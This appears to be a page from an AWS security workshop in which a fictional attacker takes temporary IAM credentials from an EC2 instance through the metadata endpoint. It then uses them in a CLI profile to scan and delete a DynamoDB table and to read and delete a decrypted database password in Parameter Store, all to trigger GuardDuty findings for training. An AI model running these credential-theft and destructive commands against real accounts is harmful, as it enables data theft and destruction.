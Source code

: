 ```yaml
---
title : "Create Findings"
date :  2025-06-11
weight : 2 
chapter : false
pre : " <b> 3.3. </b> "
---
```

### Situation 3:: 
Long has just realized that the recent attacks are simulated attacks, the Findings are automatically generated from CloudFormation Template to review the security capabilities of Security Hub and GuardDuty. However, the security risk still exists, a hacker named Bao has successfully retrieved the temporary IAM security credential generated by the IAM role of EC2 instance. So how did this hacker retrieve it?

**Retrieve temporary IAM security credentials with Systems Manager**

To perform this final attack, Bao needs to successfully retrieve the temporary IAM security credential generated by the IAM role of the EC2 instance. Bao can try one of the following two ways:
1. SSH into EC2 instance and query EC2 instance Metadata data.
2. Use the Session Manager functionality of the AWS System Manager service.

> We will proceed to create the Findings
1. Access the Session Manager at ap-southeast-1.
![create findings](/images/3.attack/3.3/1.png)
2. In the right hand navigation bar, select **Start Session**.
![create findings](/images/3.attack/3.3/2.png)
3. In the **Target instances** section we will see a managed EC2 instance with the following name format - **GuardDuty-Example: Compromised Instance: Scenario 3** with SSM Agent ping status as Online.
4. Select instance **GuardDuty-Example: Compromised Instance: Scenario 3** and press **Start session**
![create findings](/images/3.attack/3.3/3.png)
5. Execute the Metadata query statement:

         curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised

6. Open notepad, take notes of some important information below:
- Access Key ID
- Secret Access Key
- Session Token
![create findings](/images/3.attack/3.3/4.png)

### Create AWS CLI Profile on your PC
After successfully retrieving the temporary IAM security credential, we will proceed to create an AWS CLI Profile on our personal computer. From Terminal/CMD/PowerShell, we proceed to replace the values ​​with the specific values ​​we collected, then enter the following commands:

      aws configure set profile.iamhacker.region ap-southeast-1
      aws configure set profile.iamhacker.aws_access_key_id <ACCESS_KEY_ID>
      aws configure set profile.iamhacker.aws_secret_access_key <SECRET_ACCESS_KEY>
      aws configure set profile.iamhacker.aws_session_token <SESSION_TOKEN>

We can use the following command to quickly check if there is an AWS CLI Profile named **iamhacker**
      
      aws configure --profile iamhacker

![create findings](/images/3.attack/3.4/1.png)

#### Execute AWS CLI commands using temporary IAM security credentials
Using the AWS CLI commands below, we make API calls to different AWS services.

**What permissions does an IAM user have?**
      
      aws iam get-user --profile iamhacker
      aws iam create-user --user-name BuiChiBao --profile iamhacker

![create findings](/images/3.attack/3.4/2.png)
> So IAM user can not get-user nor create-user

**Is there access to DynamoDB?**

      aws dynamodb list-tables --profile iamhacker
      aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker

![create findings](/images/3.attack/3.4/3.png)
![create findings](/images/3.attack/3.4/4.png)
**Is there any access to DynamoDB data?**

      aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb list-tables --profile iamhacker

![create findings](/images/3.attack/3.4/5.png)
![create findings](/images/3.attack/3.4/6.png)

> This way the hacker has access and can query data to DynamoDB.

**Is it possible to access the System Manager Parameter Store?**

      aws ssm describe-parameters --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile iamhacker
      aws ssm delete-parameter --name "gd_prod_dbpwd_sample" --profile iamhacker

![create findings](/images/3.attack/3.4/7.png)
> This gives the hacker access to the System Manager Parameter Store.